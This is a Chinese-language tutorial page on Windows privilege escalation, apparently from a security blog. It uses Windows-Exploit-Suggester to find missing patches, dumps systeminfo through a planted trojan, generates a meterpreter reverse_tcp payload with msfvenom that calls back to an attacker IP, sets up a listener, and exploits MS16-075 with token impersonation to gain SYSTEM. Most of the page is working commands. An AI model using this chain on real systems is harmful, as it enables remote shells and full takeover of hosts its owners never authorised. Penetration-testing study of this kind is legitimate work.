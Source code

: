 ```yaml
---
author: YOUZAI
title: WE Suggester
date: 2023/06/21
categories:
 - 漏洞扫描
tags:
 - 安全工具
---
```


## 下载

[https://github.com/GDSSecurity/Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

或者使用 kali：

```shell
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

## 用法

首先安装库：

```python
pip install xlrd –upgrade
```

更新漏洞补丁库：

```python
./windows-exploit-suggester.py –update
```

表里面的内容：

![](/images/image20210522142324.png)

![](/images/image20210522142339.png)

利用木马导出目标主机的系统信息：

```shell
systeminfo >C:\inetpub\wwwroot\www.demo1.com\systeminfo.txt
```

查找可以利用的补丁：

```shell
./windows-exploit-suggester.py –database 2019-05-02-mssb.xls –systeminfo systeminfo.txt >exp.txt
```

![](/images/image20210522142444.png)

里面有详细的说明可以漏洞利用的 exp，查找指定系统的可以用的漏洞：

```shell
./windows-exploit-suggester.py –database 2019-05-02-mssb.xls –ostext ‘windows server 2008 r2’
```

显示可利用的本地提权的条目：

```shell
./windows-exploit-suggester.py –audit -l –database 2019-05-02-mssb.xls –systeminfo systeminfo.txt >win2008-day.txt
```

![](/images/image20210522142604.png)

如果补丁没有打上的情况下，就会显示可以利用的 ms 编号 exp 的地址和描述。

提权 exp **windows-kernel-exploits**

下载： [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

利用msf攻击，生成攻击载荷：

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.134 lport=12345 -f exe >/var/www/html/s.exe
```

监听：

```shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.134
set lport 12345
exploit
```

![](/images/image 20210522142900.png)

得到一个低权限的shell。

::: tip 提示

background：返回模块选择的命令把 session 放到后台。

:::

使用suggester模块：

```shell
use post/multi/recon/local_exploit_suggester
show options
set seesion 1
exploit
```

![](/images/image 20210522143028.png)

使用模块 windows/local/ms16_075_reflection_juicy 进行攻击：

```shell
use windows/local/ms16_075_reflection_juicy
show options #查看参数
set session 1
exploit
```

![](/images/image 20210522143232.png)

得到系统权限。

使用 MS16-075 提权，选择第一个 session。

```shell
sessions 1
use incognito
list_tokens -u //列出tokens
execute -cH -f C:/inetpub/wwwroot/www.demo1.com/potato.exe //执行exp
list_tokens -u
impersonate_token “NT AUTHORITY\SYSTEM” //提权
```

![](/images/image20210522143321.png)

这个要多试用多次，方可成功。
